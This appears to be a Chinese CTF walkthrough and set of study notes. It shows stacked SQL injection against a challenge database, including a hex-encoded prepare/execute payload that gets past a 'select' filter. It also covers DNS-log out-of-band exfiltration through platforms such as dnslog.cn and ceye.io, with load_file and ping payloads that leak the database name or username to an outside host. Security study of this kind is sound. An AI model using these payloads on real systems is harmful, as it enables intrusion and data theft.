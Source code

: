 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696884-9a03c390-6750-4c29-aef1-956ddf7820af.png)

```plain
可以获取到数据库的库名，然后在继续进行堆叠注入。
获取表名：';show tables;
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135697008-7951a580-7fb4-4317-a508-442f8de76222.png)

```plain
发现表名：1919810931114514
继续堆叠注入：';show columns from `1919810931114514`;
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135697049-a1b2a44f-030a-4a51-9435-7bb6919a16b7.png)

```plain
得到一个flag字段。
然后想得到flag，执行：';select flag from `1919810931114514`;
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135697067-02219db7-6d89-44c8-b328-f36d1aa61211.png)

```plain
但是发现了select等过滤，还有大小写都过滤了。这个时候应该怎么处理呢？应该怎么过滤呢？
对';select flag from `1919810931114514`;这个字符串进行转义成16进制。
转化成为：0x73656c656374202a2066726f6d20603139313938313039333131313435313460
构造payload：';SeT @a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135697110-26e0d76d-8fed-459a-a64e-1a4615181e5d.png)

获得flag。

------

- DNS利用-平台介绍&SQL注入&命令执行等

```plain
1.平台
http://www.dnslog.cn
http://admin.dnslog.link
http://ceye.io
2.应用场景：
解决不回显，反向连接，SQL注入，命令执行，SSRF等
在平台上申请一个账号，使用者要支持访问这个地址才能使用，如果不支持那就没办法使用。在注入中只有load_file支持这钟类型的注入。
现在举个命令执行的例子：ping %USERNAME%.ez1dw8.dnslog.cn
SQL注入：
select load_file(concat('\\\\',(select database()),'.7logee.dnslog.cn\\aa'));
and (select load_file(concat('//',(select database()),'.69knl9.dnslog.cn/abc')))
命令执行：
ping %USERNAME%.7logee.dnslog.cn
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135697190-8b8cd63d-7a23-4259-b0ce-c5f1aad13aaa.png)